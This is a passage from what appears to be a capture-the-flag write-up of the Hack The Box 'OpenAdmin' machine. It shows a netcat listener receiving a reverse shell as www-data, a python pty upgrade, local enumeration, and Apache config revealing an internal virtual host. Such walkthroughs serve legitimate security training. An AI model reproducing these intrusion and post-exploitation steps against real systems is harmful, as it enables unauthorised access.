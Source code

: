 
```sh
kali@kali-[~/boxes/htb/OpenAdmin]$nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.171] 39968
whoami
www-data
```


# Shell as www-data


I checked for python3 to spawn a TTY shell.

```sh
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$ 
```


I did a bunch of enumeration here, I ended up running linpeas which didn't find anything directly useable. I ended up finding another directory in /var/www owned by jimmy.

```sh
www-data@openadmin:/var/www$ ls -al
ls -al
total 16
drwxr-xr-x  4 root     root     4096 Nov 22  2019 .
drwxr-xr-x 14 root     root     4096 Nov 21  2019 ..
drwxr-xr-x  6 www-data www-data 4096 Nov 22  2019 html
drwxrwx---  2 jimmy    internal 4096 Nov 23  2019 internal
lrwxrwxrwx  1 www-data www-data   12 Nov 21  2019 ona -> /opt/ona/www
```

I check the virutal hosts file to see what the subdomain was. I also noticed the web server is listening on 127.0.0.1:52846.

```sh
www-data@openadmin:/etc/apache2/sites-available$ ls -al
ls -al
total 24
drwxr-xr-x 2 root root 4096 Nov 23  2019 .
drwxr-xr-x 8 root root 4096 Nov 21  2019 ..
-rw-r--r-- 1 root root 6338 Jul 16  2019 default-ssl.conf
-rw-r--r-- 1 root root  303 Nov 23  2019 internal.conf
-rw-r--r-- 1 root root 1329 Nov 22  2019 openadmin.conf
www-data@openadmin:/etc/apache2/sites-available$ cat internal.conf
cat internal.conf
Listen 127.0.0.1:52846

<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal

<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```
